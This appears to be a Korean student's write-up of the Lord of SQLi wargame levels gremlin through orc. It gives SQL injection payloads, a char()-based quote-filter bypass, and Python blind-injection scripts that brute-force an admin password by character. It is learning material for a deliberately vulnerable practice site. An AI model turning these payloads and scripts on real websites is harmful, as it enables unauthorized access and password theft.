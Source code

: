 ## 수업내용 떠올리기

1. url 뒤에 ?를 붙여서 query 에 내용을 넣을 수 있음(ex : ~~.php?id=admin)
2. query에서 #으로 뒷내용 주석화 시킬수있음
3. 따옴표를 사용할 수 없을때는 char(x,x,x,x)등 함수 이용
4. url encoding


***

## rubiya 사이트 난이도별 풀이

* gremlin
    * ```php
      if($result['id']) solve("gremlin");
      ```
      이 구문을 통해서 문제를 해결하는데에 pw는 상관없다는걸 알 수 있다.
      그렇기에 'id'를 TRUE로 만들어 버리면 된다. 즉 id를 요구하는 구문에
      ```
      ?id=' or 1=1%23
      ```
      를 inject해서 id자체를 TRUE로 만든 뒤 뒷부분을 #(%23) 으로 날려버리면 해결!
* cobolt
    * ```php
      if($result['id'] == 'admin') solve("cobolt");
      ```
      이 구문을 통해서 id가 admin이기만 하면 풀리는 것을 알 수 있다.
      ```
      ?id=admin'%23
      ```
      하면 풀린다. 추가로 수업에서 배운 내용으로
      ```
      ?id=' or 1=1%23
      ```
      을 inject 하면 elseif 구문으로 넘어간다.

      근데 왜 Hello {$result['id']} 에서 Hello rubiya가 나오는지는 모르겠다.
* goblin
    * ```php
      if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
      if($result['id'] == 'admin') solve("goblin");
      ```
      다옴표를 쓰지 말고 id를 admin으로 만들라고 한다.

      수업때 배운 char() 함수를 이용하면
      ```
      ?no=2 or id=char(97,100,109,105,110)
      ```
      을 삽입하여 문제를 해결한다. 
      
      여기서 no를 2로 한 이유는 잘 모르겠는데

      아마도 id=guest 이면서 no=1에 해당하는 데이터가 있어서 그 뒤 or까지 안넘어가는 것 같다. 
    
***

## orc(과제)
blind sql을 이용해서 내가 제시한 조건이 true 인지 false인지 판단한다.

이걸 이용해서 true 인 조건들을 취합하여 문제를 해결한다.
```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
```
이걸 보니까 지금까지처럼 id까지 맞추고 pw부분을 주석처리해서 날려버리는 방식이 아니라 진짜로 pw를 알아내야하는 것 같다.

처음부터 끝까지 brute force를 사용하는것도 가능하겠지만 10년도 더 된 내 컴퓨터가 감당하지 못할것같기 때문에 pw의 길이부터 알아내보자.
```
?pw=jnj' or 1=1%23
```
을 해보니까 hello admin이 나온다. 1=1%23부분을 이용해서 pw의 길이를 알아내보자.
```
?pw=jnj' or length(pw)=X%23
```
노가다 해보니까 pw의 길이는 4였다.

<mark>근데 이상한 점은, pw의 길이를 8로 입력했을때도 Hello admin이 출력되었다는 것이다.</mark>

일단은 제쳐두고 pw의 길이를 4라고 가정한 후 풀어보았다.

이제 각각의 자리를 substr을 이용해서 알아내보자.

[인용](https://girrr.tistory.com/93)(https://girrr.tistory.com/93)

이 사이트는 강사님이 주신 사이트인데, 여기나온 방법대로는 파이썬에서 오류가 발생해서 

[인용](https://jaeseokim.tistory.com/26)(https://jaeseokim.tistory.com/26)

사이트를 인용하였다.

```python
import requests

url='https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php'
cookies={'PHPSESSID':'내쿠키'}
injection="' or 1=1#"
params={'id':injection}
response=requests.get(url,params=params,cookies=cookies)
print(response.text)
```

gremlin으로 테스트 해보니 성공하였다. 

길이가 4인것은 알고있으니 substr을 이용해 각 자리의 비밀번호를 알아내보기로 하자.
```python
import requests

# chr(32) 에서 chr(126) 까지만 테스트 해 보면 될 것 같다.
# chr(32) 과 chr(126) 사이에 모든 특수문자와 영어대소문자가 포함되어있기 때문이다.
url='https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookies={'PHPSESSID':'내쿠키'}
for i in range(1,5):
    for passkey in range(32,126):
        injection="jnj' or substr(pw,"+str(i)+",1)='"+chr(passkey)+"'#"
        params={'pw':injection}
        response=requests.get(url,params=params,cookies=cookies)
        if "Hello admin" in response.text:
            print(chr(passkey))
            break
```
해당 코드를 돌렸더니 비밀번호는 095A 가 나왔다.

근데 정답이 아니었다. 여기서 멘탈이 한번 나갔다. 아까 제쳐두었던 부분이 문제가된것 같았다.

이유을 찾기위해 인터넷 검색을 해보다 보니까 sql에서는 and연산자가 or 연산자보다 우선시 되어 계산된다는 것을 알게 되었다.

우리의 쿼리는
```
select id from prob_orc where id='admin' and pw='' or substr(pw,1,1)=0#'
```
이것이기 때문에 id가 무엇인가에는 관계 없이 그저 length(pw)=8의 참 거짓 여부만 참조한다.

아마 내 추측으로는, 이 데이터베이스 속에 admin이 아닌 다른 계정또한 존재하며 이것을 피해가기 위해서는 'id=admin'을 and 문과 엮어 확실히 id가 admin일때의 pw를 구해내야 한다는 것이었다.

그래서 수정된 나의 파이썬 코드는
```python
import requests

# chr(32) 에서 chr(126) 까지만 테스트 해 보면 될 것 같다.
# chr(32) 과 chr(126) 사이에 모든 특수문자와 영어대소문자가 포함되어있기 때문이다.
url='https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookies={'PHPSESSID':'내 쿠키'}
for i in range(1,9):
    for passkey in range(32,126):
        injection="jnj' or id='admin' and substr(pw,"+str(i)+",1)='"+chr(passkey)+"'#"
        params={'pw':injection}
        response=requests.get(url,params=params,cookies=cookies)
        if "Hello admin" in response.text:
            print(chr(passkey))
            break
```
이를 통해 알게된 pw는 095A9852이다.

근데 또 안됐다. ???????

대문자 소문자 문제였다. 진짜 pw는 095a9852이다.
